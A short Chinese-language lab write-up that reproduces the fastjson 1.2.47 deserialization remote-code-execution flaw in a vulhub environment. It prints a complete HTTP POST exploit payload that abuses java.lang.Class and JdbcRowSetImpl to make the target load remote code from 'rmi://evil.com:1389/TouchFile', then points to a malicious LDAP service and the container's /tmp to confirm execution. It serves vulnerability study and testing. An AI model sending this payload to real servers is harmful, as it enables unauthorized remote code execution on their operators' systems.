



## 概述 

fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

## 靶场环境

https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce

## 复现

目标环境是openjdk:8u102，这个版本没有com.sun.jndi.rmi.object.trustURLCodebase的限制，我们可以简单利用RMI进行命令执行。

复现过程与 1.2.24类似，payload 不同。

	POST / HTTP/1.1
	Host: target_ip:8090
	Accept-Encoding: gzip, deflate
	Accept: */*
	Accept-Language: en
	User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
	Connection: close
	Content-Type: application/json
	Content-Length: 160
	
	{
	    "a":{
	        "@type":"java.lang.Class",
	        "val":"com.sun.rowset.JdbcRowSetImpl"
	    },
	    "b":{
	        "@type":"com.sun.rowset.JdbcRowSetImpl",
	        "dataSourceName":"rmi://evil.com:1389/TouchFile",
	        "autoCommit":true
	    }
	}

恶意ldap服务回显

docker tmp目录下 查看结果

